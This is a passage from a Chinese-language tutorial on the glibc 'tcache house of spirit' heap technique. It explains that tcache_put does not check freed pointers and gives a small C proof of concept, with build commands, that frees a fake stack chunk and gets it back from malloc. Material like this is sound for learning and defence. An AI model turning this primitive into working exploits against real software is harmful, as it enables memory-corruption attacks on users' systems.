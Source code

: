 ### tcache house of spirit

`tcache house of spirit`的攻击手法是由于`tcache_put`函数未做安全检查导致的

由于`tcache_put`函数在释放的时候没有检查被释放的指针是否真的是堆块的`malloc`指针，如果构造一个`size`符合`tcache bin size`的`fake_chunk`，那么理论上讲其实可以将任意地址作为`chunk`进行释放

- `tcache house of spirit demo`

```c
// gcc -fno-stack-protector -no-pie -g tcache-house-of-spirit-demo.c -o tcache-house-of-spirit-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-house-of-spirit-demo

#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	setbuf(stdout, NULL);

	malloc(1);

	unsigned long long *a;
	unsigned long long fake_chunks[10];

	printf("fake_chunk addr is %p\n", &fake_chunks[0]);

	fake_chunks[1] = 0x40;

	a = &fake_chunks[2];
	free(a);

	void *b = malloc(0x30);
	printf("malloc(0x30): %p\n", b);

	assert((long)b == (long)&fake_chunks[2]);
	return 0;
}
```

上述示例代码中
- 先使用`setbuf`函数进行初始化，然后创建了一个堆块（防止后面的`chunk`与`top chunk`合并）
- 接着定义一个指针变量`a`和一个整型数组`fake_chunks`，然后打印出`fake_chunk`的起始地址
- 接着将`fake_chunk[1]`的内容修改为0x40，并将`fake_chunk[2]`所在的地址赋值给指针变量`a`，然后`free`掉`a`
- 最后重新`malloc`一个`0x30`大小的`chunk`并将`malloc`地址赋值给指针变量`b`

先查看一下`fake_chunks`的地址，为`0x7fffffffdde0`
